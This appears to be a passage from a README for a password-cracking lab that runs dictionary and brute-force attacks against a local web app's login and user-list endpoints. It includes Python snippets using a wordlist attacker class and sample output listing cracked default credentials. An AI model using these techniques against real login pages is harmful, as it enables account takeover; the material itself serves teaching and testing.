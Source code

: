 #### Step 2: Run Custom Script

```bash
python custom_attack.py
```

### Method 3: Using the Original Toolkit

#### Step 1: Get User List

```bash
# Get list of valid usernames
curl http://localhost:5000/api/users
```

#### Step 2: Use Dictionary Attack Module

```python
# In Python shell or script
import sys
sys.path.append('../src')

from dictionary_attack import DictionaryAttacker
import requests

# Load wordlist
attacker = DictionaryAttacker()
attacker.load_wordlist('../wordlists/common_passwords.txt', max_words=1000)

# Test against web endpoint (manual implementation needed)
# This demonstrates the concept - actual web integration requires
# custom code like our brute_force_web.py
```

---

## 📊 Understanding the Results

### Attack Output

When running attacks, you'll see output like:

```
Starting dictionary attack...
Usernames: 3
Passwords: 10
Total combinations: 30
Target: http://localhost:5000/login
Rate limit: 0.1s between requests
--------------------------------------------------

✓ SUCCESS: admin:admin
✓ SUCCESS: user:password
✓ SUCCESS: test:123456

==================================================
ATTACK COMPLETED
==================================================
Total attempts: 30
Successful logins: 3
Failed attempts: 27
Duration: 3.45 seconds
Rate: 8.70 attempts/second

✓ SUCCESSFUL CREDENTIALS:
  admin:admin
```